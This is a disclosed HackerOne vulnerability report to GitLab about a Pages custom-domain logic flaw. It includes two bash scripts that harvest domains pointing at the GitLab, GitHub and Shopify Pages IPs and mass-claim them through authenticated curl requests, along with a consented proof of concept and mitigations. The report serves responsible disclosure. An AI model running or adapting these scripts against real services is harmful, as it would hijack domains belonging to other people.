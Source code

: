 # Using GitLab to monitor and hijack domains in mass quantity.

## Report Details
- **Report ID**: 312118
- **URL**: https://hackerone.com/reports/312118
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-02-04T14:25:08.445Z
- **Disclosed**: 2018-02-21T23:46:26.928Z

## Reporter
- **Username**: edoverflow
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
# Vulnerability Description

There is a logic flaw in how GitLab pages can set custom domains that allows an attacker to actively monitor domains and hijack them as soon as they point to `52.167.214.135`. GitLab allows setting an unlimited number of domains for a single repository. 

First, I wrote a fully-fledged exploit that hijacks unclaimed domains. In under 5s I managed to secure 110 domains.

```bash
#!/bin/bash

searches=(
    "The resource that you are attempting to access does not exist or you don't have the necessary permissions to view it."
)

gron "https://app.securitytrails.com/api/search/by_type/ip/52.167.214.135" | fgrep "domain" | grep -o '"[^"]\+"' | cut -d '"' -f 2 > whiteknight-temp

while read domain; do
    if host "$domain"> /dev/null; then
        echo $domain;
    fi;
done < whiteknight-temp >> domains

cat domains | uniq | sed -e 's/^/https:\/\//' >> domains-to-test

meg / domains-to-test

for str in "${searches[@]}"; do
    grep --color -Hnri "$str" out/
done

while read target; do
    curl --silent 'https://gitlab.com/███████████████████/███████████████████/pages/domains' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' --compressed -H 'Accept-Language: en-GB,en;q=0.5' -H 'Cache-Control: no-cache' -H 'Connection: keep-alive' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Cookie: _gitlab_session=███████████████████; sidebar_collapsed=false' -H 'DNT: 1' -H 'Host: gitlab.com' -H 'Pragma: no-cache' -H 'Referer: https://gitlab.com/edoverflow-gitlab/hakyll/pages/domains/new' -H 'Upgrade-Insecure-Requests: 1' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:59.0) Gecko/20100101 Firefox/59.0' --data "utf8=✓&authenticity_token=████████████████&pages_domain[domain]=$target&pages_domain[certificate]&pages_domain[key]"
done < domains

gio trash whiteknight-temp domains domains-to-test out/
```

Then I modified the script to gather any domain and add it to my repository. This means that as soon as someone points their domain to `52.167.214.135`, my repository will hijack their domain, and serve content on that domain. This prevents the user from even creating a repository on GitLab with that domain.

```bash
#!/bin/bash

IPS=(
    # GitLab
    "52.167.214.135"
    # GitHub
    "192.30.252.153"
    "192.30.252.154"
    # Shopify
    "23.227.38.32"
)

for ip in "${IPS[@]}"; do
    gron "https://app.securitytrails.com/api/search/by_type/ip/$ip" | fgrep "domain" | grep -o '"[^"]\+"' | cut -d '"' -f 2 > whiteknight-temp
done

while read domain; do
    if host "$domain"> /dev/null; then
        echo $domain;
    fi;
done < whiteknight-temp >> domains

while read target; do
    curl --silent 'https://gitlab.com/███████████████████/███████████████████/pages/domains' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' --compressed -H 'Accept-Language: en-GB,en;q=0.5' -H 'Cache-Control: no-cache' -H 'Connection: keep-alive' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Cookie: _gitlab_session=███████████████████; sidebar_collapsed=false' -H 'DNT: 1' -H 'Host: gitlab.com' -H 'Pragma: no-cache' -H 'Referer: https://gitlab.com/edoverflow-gitlab/hakyll/pages/domains/new' -H 'Upgrade-Insecure-Requests: 1' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:59.0) Gecko/20100101 Firefox/59.0' --data "utf8=✓&authenticity_token=███████████████████&pages_domain[domain]=$target&pages_domain[certificate]&pages_domain[key]"
done < domains

gio trash whiteknight-temp domains domains-to-test out/
```

Please note that you could just extract a bunch of domains from the Alexa or randomly from the web, I just use `securitytrails.com` to demonstrate the issue without affecting your users.

# Proof of concept

With my colleague's permission, I asked them to set an A record for their personal domain (http://danfield.photography/) pointing to `52.167.214.135`. They set the A record **after** I had added their domain to my repository. After a couple of minutes, their domain was serving my repository's content.

# Mitigation

Since this is a logic flaw, there will be multiple ways to mitigate the issue.

1. You could restrict repositories to only a single custom domain — this is what GitHub does.
2. Require users to place a randomly generated string as a TXT record on their domain when confirming ownership of the domain.
3. Not store the domain until it actually points to `52.167.214.135` — currently you store any domain pointing to various other services and IPs.

## Impact

GitLab allows unrestricted mass-scale monitoring and claiming of domains. This attack can be performed in mere seconds.

## Attachments
No attachments
